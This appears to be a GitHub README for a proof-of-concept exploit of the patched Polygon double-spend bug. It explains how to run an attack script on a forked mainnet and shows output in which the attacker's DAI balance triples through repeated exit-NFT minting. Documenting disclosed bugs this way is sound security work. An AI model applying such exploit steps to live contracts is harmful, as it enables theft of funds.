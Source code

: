 # Polygon double spend vulnerable PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
------ Exploit: verifyInclusion byte discard bug ------------
Dai balance of attacker: 0.0
------> Step 1: call processExits() to make a normal withdrawal
Dai balance of attacker: 33000.0
------> Step 2: call startExitWithBurntTokens() repeatedly to mint ExitNFT
7 days have passed
------> Step 3: call processExits() to make multiple withdrawals
Dai balance of attacker: 99000.0
```
This means the attack is complete
> The block height of the fork is 13260334


## Link

* https://medium.com/immunefi/polygon-double-spend-bug-fix-postmortem-2m-bounty-5a1db09db7f1
* https://www.tofreedom.me/polygonmatic
